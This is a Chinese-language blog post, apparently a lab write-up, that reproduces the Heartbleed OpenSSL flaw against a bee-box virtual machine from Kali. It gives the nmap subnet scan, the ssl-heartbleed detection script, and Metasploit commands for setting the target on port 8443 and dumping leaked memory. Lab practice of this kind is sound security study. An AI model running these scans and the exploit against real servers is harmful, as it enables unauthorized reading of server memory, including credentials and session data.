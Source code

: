 ```yaml
---
title: 心脏滴血原理与复现
date: 2023-04-22 14:57:00
categories: 技术
tags:
  - 网络安全
---
```


### 前期准备

攻击机器还是kali，靶机这里用到的是[beebox](https://sourceforge.net/projects/bwapp/files/bee-box/)，下载完之后解压导入虚拟机就可以开始使用了。

### nmap扫描

攻击发起前，肯定是kali先进行扫描，查看同一网段哪些机器在线。

<!-- more -->

```bash
  nmap -T4 -A -v -Pn 192.168.20.1/24
```

扫描完成后发现有一台192.168.20.136的机器在线，复现心脏滴血用到的端口是8443。

![扫描结果](./heartbleed/1.png)

### 脚本探测

看到机器在线后，使用一个工具探测其8443端口是否可以利用，查看靶机是否有可以利用的机会。

```bash
  nmap 192.168.20.136 -p 8443 --script ssl-heartbleed.nse
```

文字显示是“VULNERABLE”，代表漏洞可以被利用。

![脚本探测](./heartbleed/2.png)

### 开始攻击

打开```msfconsole```工具，搜索```heartbleed```，使用1。

```bash
  msfconsole -q
  search heartbleed
  use 1
```

![参数设置](./heartbleed/4.png)

使用```show options```查看相应的参数并设置，包括```rport```，```rhost```，```verbose```。

```bash
  set rport 8443
  set rhost 192.168.20.136
```

![参数设置](./heartbleed/5.png)

![参数设置](./heartbleed/8.png)

其中```verbose```是要在```show advanced```下查看的，默认是```false```，我们```set verpose true```设置为```true ```，只有这样我们才能明文显示（终端显示）我们拿到的64K的数据。

```bash
  show advanced
  set verbose true
```

![参数设置](./heartbleed/3.png)

最后可以用```show missing```查看遗漏的设置参数，没有遗漏，就可以开始运行了。

```bash
  show missing
  run
```

![参数设置](./heartbleed/6.png)

kali在这边运行着，然后回到靶机上随便点点点，只要发生操作，就会有数据外泄。

![参数设置](./heartbleed/9.png)

最后我们回到kali，发现已经拿到数据了。

![参数设置](./heartbleed/7.png)

心脏滴血的复现到这里就完成了。